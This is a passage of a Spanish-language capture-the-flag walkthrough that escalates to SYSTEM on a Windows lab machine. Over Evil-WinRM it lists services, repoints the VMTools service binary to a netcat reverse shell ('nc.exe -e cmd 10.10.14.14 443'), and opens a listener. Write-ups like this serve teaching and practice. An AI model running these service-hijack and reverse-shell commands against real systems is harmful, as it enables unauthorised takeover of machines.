 ## Shell as nt authority system 

- Como tenemos la capacidad de parar y arrancar servicios vamos a manipular el de una que ya exista.

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc    

*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

- Ahora vamos a manipular uno. 

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.14 443"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

- Nos ponemos en escucha.

```bash
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
```
